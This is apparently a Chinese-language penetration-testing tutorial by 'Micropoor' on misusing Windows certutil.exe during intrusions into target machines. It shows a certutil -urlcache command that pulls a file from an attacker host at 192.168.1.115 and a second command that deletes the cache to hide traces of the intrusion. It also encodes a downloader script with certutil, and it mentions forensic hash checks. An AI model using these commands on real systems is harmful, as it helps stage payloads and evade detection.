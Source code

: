 ### certutil微软官方是这样对它解释的：
> Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。  

url:https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc732443(v=ws.11)

但是近些年好像被玩坏了。

**靶机：**windows 2003 windows 7

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
```
![](media/d5ad3e478f8b4df59283786537e748f6.jpg)

默认下载为bin文件。但是不影响在命令行下使用。  
![](media/346d182aad2fafe6b894d0b08c994e0e.jpg)

certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，**需要马上执行如下**：

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete
```

![](media/1e7636c8225aaf3cd99d81bd44afeff9.jpg)

而在应急中certutil也是常用工具之一，来对比文件hash，来判断疑似文件。

**Windows 2003：**  
![](media/4dd859482e45ae5632c0302798c69329.jpg)

**Windows 7：**
![](media/edec57e27ee820bc6c423481454ee6fc.jpg)

**certutil的其它高级应用：**
`C:\>certutil -encode c:\downfile.vbs downfile.bat`
![](media/cb14f787f5f65099047d739544e41dbc.jpg)

**file:downfile.bat**
![](media/b659cc22fd3ef3bc8931857f8a255c44.jpg)

**解密：**
![](media/bdb9cc7f59e382ddb3e607e704bea481.jpg)

**file:downfile.txt**
![](media/f0e6d3203cc514f0a7c611453246da1e.jpg)

**后者的话：**powershell内存加载配合certutil解密是一件非常有趣的事情。会在未来的系列中讲述。

>   Micropoor
